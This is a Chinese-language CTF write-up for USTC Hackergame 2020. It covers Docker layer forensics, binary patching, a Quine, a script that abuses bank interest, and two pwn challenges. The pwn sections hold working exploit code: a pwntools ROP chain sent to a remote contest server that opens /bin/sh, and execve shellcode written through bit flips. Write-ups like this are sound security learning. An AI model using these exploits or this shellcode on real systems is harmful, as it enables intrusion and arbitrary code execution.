




# OpenNekomura/USTC-Hackergame-2020_Writeup

## 233 同学的 Docker
根据 docker 的特性，每次 RUN 的时候会新建一个 layer，存储的是与上一个 layer 的差分，所以233同学的方法是没有真正删除 flag.txt 的，它还存在于上一个 layer 中。

Linux 下 Docker 镜像所有文件存放在 /var/lib/docker

直接搜索一波

```
docker pull 8b8d3c8324c7/stringtool
sudo find /var/lib/docker -name flag.txt
```

Windows 大概也可以这样罢

## 从零开始的记账工具人
网上搜到一堆，试了几个没一个能用的，只好自己写了。
```
d_number = ["零", "壹", "贰", "叁", "肆", "伍", "陆", "柒", "捌", "玖"]


# 放大100倍，到时候自己除回来
def parse(rmbtxt):
    result = 0
    last = 0
    for chara in rmbtxt:
        if chara in d_number:
            last = d_number.index(chara)

        if chara == "拾":
            if last == 0:
                result += 10 * 100
            else:
                result += last * 10 * 100
            last = 0
        if chara == "佰":
            result += last * 100 * 100
            last = 0
        if chara == "元":
            result += last * 100
            last = 0
        if chara == "角":
            result += last * 10
            last = 0
        if chara == "分":
            result += last
            last = 0
    print(result)

f = open("qingdan.txt", "r")
for line in f.readlines():
    line = line[:-1]
    parse(line)
```

## 超简陋的 OpenGL 小程序
ida 一看主函数逻辑比较复杂，Shader 脚本看不懂。果断 x64dbg 动态调试。

把 opengl32.dll API 全部打上断点。调试一下发现 flag 和 矩形 是用 glDrawElements 函数一笔画成的，定位到调用处。



网络搜索 glDrawElements 发现，如果我们能减小 count 的值，估计就可以显示出（肉眼可以分辨的）flag

rdx 是第二个参数，也就是 count

正好看到 rdx 在 call 之前要左移两位，我们可以把这条指令修改为 sar rdx,3 这样 count 会再左移一位，就变成了原来的一半。



重新运行程序即可看到 flag



## 来自未来的信笺
因为我是这道题一血，还是稍微写一下吧。

这题本身不难，但是最后做出来的人也不多，估计就是因为：
```
另外一句题外话是，在写 writeup 的时候我也听说做这道题的选手们试了各种各样的二维码 decoding 的库，但是很多都没法完全正常工作——我开始有点担心一千年之后的人类能不能正确解码胶卷上的二维码了。
```
比如我用 golang 的某个二维码库解码，就有一张图片无法解码，用 zbarimg 才解码出来。

## 狗狗银行
刚开始觉得是溢出，试了发现不是，那只能是羊毛银行了。
```
import os

kaika = open("kaika.txt", "r").read()
zuanzhang = open("zuanzhang.txt", "r").read()

n_xyk = 50
first_xyk = 2
first_jjk = first_xyk + n_xyk - 1

for i in range(n_xyk):
    os.system(kaika % "credit")

for i in range(n_xyk * 12):
    os.system(kaika % "debit")

now_jjk = first_jjk

for now_xyk in range(first_xyk, first_xyk + n_xyk):
    for i in range(11): # 每张信用卡转不超过2000，所以最多转167*11
        os.system(zuanzhang % (str(now_xyk),str(now_jjk))) #产生利息的最低金额167
        now_jjk += 1
```
Smart 到连 http request 都不写了，直接 system curl，通俗易懂

两 txt 内容为浏览器 Dev tools 的请求的 curl 命令，关键部分改为 %s

然后就坐收利息了（

## 自复读的复读机
~~只有我不知道这叫 Quine 了~~

搜索了半天，整了个 sys getframe f_code.co_consts （草） 

这样可以获取到常量，也就是 exec 里面的字符串，离复读成功不远了，再拼拼凑凑，注意 print 不要输出换行，就复读成功了。

```
exec('''print( ("exec(" + "'"*3 + __import__('sys')._getframe(1).f_code.co_consts[0] + "'"*3 +")")[::-1] ,end="")''')
exec('''print(     __import__('hashlib').sha256(("exec(" + "'"*3 + __import__('sys')._getframe(1).f_code.co_consts[0] + "'"*3 +")").encode("utf-8")).hexdigest()     ,end="")''')
```

##  生活在博弈树上
~~只有我不知道 ROPgadget 可以自动生成 RopChain，又丢人了。~~

推荐使用 gdb+pwndbg  调试，方便。

先贴上 exp 脚本
```
from pwn import *

context.arch = "amd64"

payload_header = bytes("(2,2)", "latin-1") + bytes("A", "latin-1") * (0x90 + 8 - 5)

payload1 = payload_header + p64(0x402551)  # 第一题


bss_addr = 0x00000000004A8320 + 0

ax_dx_bx_addr = 0x000000000046F9D6
rdi_addr = 0x00000000004017B6
rsi_addr = 0x0000000000407228
rdx_addr = 0x000000000043DBB5
syscall_addr = 0x43E6EE

# syscall: rax  args: rdi,rsi,rdx

payload2 = (
    payload_header
    + flat([rdi_addr, 0, ax_dx_bx_addr, 0, 8, 0, rsi_addr, bss_addr, syscall_addr])
    + flat([rdi_addr, bss_addr, ax_dx_bx_addr, 59, 0, 0, rsi_addr, 0, syscall_addr])
)

# c = process("./tictactoe")  # 64

c = remote("202.38.93.111", 10141)
c.sendline("[TOKEN]]")

c.recvuntil("Your turn")
c.sendline("(0,1)")
c.recvuntil("Your turn")
c.sendline("(0,2)")
c.recvuntil("Your turn")
# gdb.attach(c, "bp 0x402582")  # bp retn

c.sendline(payload2)

c.sendline("/bin/sh\x00")

c.interactive()
```
## 超精准的宇宙射线模拟器
打开 ida 分析，首先发现这玩意只能反转一个 bit ，那不行，必须多次反转才能写入 shellcode，所以要检查反转哪个 bit 可以使程序重复执行。

经过一波尝试，我写了一个简单的计算器。发现 0x401296 这个地方，反转第四个 bit 就可以跳转回 _start 使程序无限运行，再反转第六个 bit 就可以跳转到一个此过程中不会被执行的代码段地址，我们可以在这里写入 shellcode

```
from pwn import *

context.arch = "amd64"
#context.log_level = "debug"

# 计 算 器
# 0x401295: call 指令
# 0x401296: 相对偏移
if False:
    rip = 0x401295
    diff = -0xfffffffb  # ？
    data = 0xfffffe26
    data ^= (1 << 4)  # 最后那次跳转用
    for i in range(64):
        new = rip+diff + (data ^ (1 << i))
        print("%d %x" % (i, new))

    exit()

c = process("./bitflip")

# execve binsh 27bytes
shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
scbuf_addr = 0x401110  # 貌似不会被执行，可以放心写入（
origcode = ELF("./bitflip").read(scbuf_addr, 27)

# 网上抄来的按情况自动反转bit以写入shellcode的工具函数
def write_shellcode():
    for i in range(27):
        # after a xor, the bits corresponding to 1 differ in the original
        diff = origcode[i] ^ ord(shellcode[i])
        # itr is the no. of ones present in binary representation of the i byte
        itr = format(diff, '07b').count('1')
        for j in range(itr):   # iterate till the byte is equal to the corresponding shellcode byte
            # idx is the first 1 from the end, i.e the index of the last differing bit
            idx = format(diff, '07b')[::-1].find('1')
            change(scbuf_addr+i, idx)  # write it in the code
            ''' Updating the value of diff to account for the bit we just flipped '''
            fmt = format(diff, '07b')
            tmp = list(fmt)
            if tmp[len(tmp)-idx-1] == '0':
                tmp[len(tmp)-idx-1] = '1'
            else:
                tmp[len(tmp)-idx-1] = '0'
            t = "".join(tmp)
            diff = int('0b'+t, 2)


def change(addr, idx):
    c.recvuntil("Where do you want to flip?")
    a = hex(addr)+" "+str(idx)
    c.sendline(a)
    print(a)


c.recvuntil("Where do you want to flip?")
c.sendline("0x401296 4")  # call _start instead of exit
write_shellcode()
c.sendline("0x401296 6")

c.interactive()
```
把这段脚本的输出加上头尾两行，得到神必代码
```
0x401296 4

0x401110 0
0x401110 3
0x401110 7
0x401111 4
0x401111 7
0x401112 3
0x401113 0
0x401113 1
0x401113 3
0x401113 4
0x401113 5
0x401113 6
0x401113 7
0x401114 0
0x401114 4
0x401114 6
0x401114 7
0x401115 0
0x401115 2
0x401115 4
0x401115 6
0x401115 7
0x401116 0
0x401116 1
0x401116 3
0x401116 5
0x401116 7
0x401117 0
0x401117 6
0x401117 7
0x401118 4
0x401118 7
0x401119 2
0x401119 3
0x401119 6
0x401119 7
0x40111a 0
0x40111a 1
0x40111a 2
0x40111a 4
0x40111a 7
0x40111b 0
0x40111b 1
0x40111b 3
0x40111b 7
0x40111c 0
0x40111c 1
0x40111c 3
0x40111c 4
0x40111c 6
0x40111d 0
0x40111d 1
0x40111d 2
0x40111d 3
0x40111d 6
0x40111e 0
0x40111e 1
0x40111e 3
0x40111e 4
0x40111e 6
0x40111e 7
0x40111f 0
0x40111f 1
0x40111f 4
0x40111f 6
0x401120 2
0x401120 4
0x401120 6
0x401121 0
0x401121 1
0x401121 2
0x401121 3
0x401121 4
0x401121 6
0x401122 0
0x401122 4
0x401122 6
0x401122 7
0x401123 0
0x401123 1
0x401123 2
0x401123 4
0x401123 6
0x401123 7
0x401124 0
0x401124 1
0x401124 2
0x401124 4
0x401124 7
0x401125 5
0x401126 0
0x401126 1
0x401126 2
0x401126 4
0x401126 6
0x401127 0
0x401127 1
0x401127 2
0x401127 3
0x401128 0
0x401128 1
0x401128 3
0x401128 5
0x401128 6
0x401129 0
0x401129 1
0x401129 2
0x401129 3
0x401129 6
0x40112a 0
0x40112a 2
0x40112a 6

0x401296 6
```
贴入远端就可以 getshell 然后拿到 flag

## 总结

~~成绩换算100分制果然没有60分，要重修了呜呜呜。~~



math 不会，binary 也没做出多少，全靠运气来混分（
